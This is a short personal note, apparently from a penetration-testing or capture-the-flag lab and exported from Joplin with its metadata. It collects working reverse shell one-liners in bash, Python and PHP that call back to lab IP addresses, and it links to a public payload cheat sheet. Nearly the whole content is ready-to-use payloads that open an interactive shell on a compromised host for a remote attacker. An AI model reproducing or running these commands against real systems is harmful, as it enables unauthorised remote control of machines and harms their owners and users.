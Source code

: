 bash/python

> ```
> bash -i >& /dev/tcp/10.10.14.50/5001 0>&1
> /bin/bash -c "bash -i >& /dev/tcp/10.10.14.50/5001 0>&1"
> ```

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#bash-tcp](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

## Python

> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.14.50",9696));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(\["/bin/sh","-i"\])'
> 
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.16.32",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(\["/bin/bash","-i"\])'

## PHP

For the interactive shell usage

> php -r '$sock=fsockopen("10.10.14.50",5001);exec("/bin/sh -i &lt;&3 &gt;&3 2>&3");'

id: 5c960ae0679f45c084d870a7e8bd7850
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-05-17T17:16:25.566Z
updated_time: 2022-07-12T07:34:02.768Z
is_conflict: 0
latitude: 1.28795004
longitude: 103.85178375
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1652807785566
user_created_time: 2022-05-17T17:16:25.566Z
user_updated_time: 2022-07-12T07:34:02.768Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1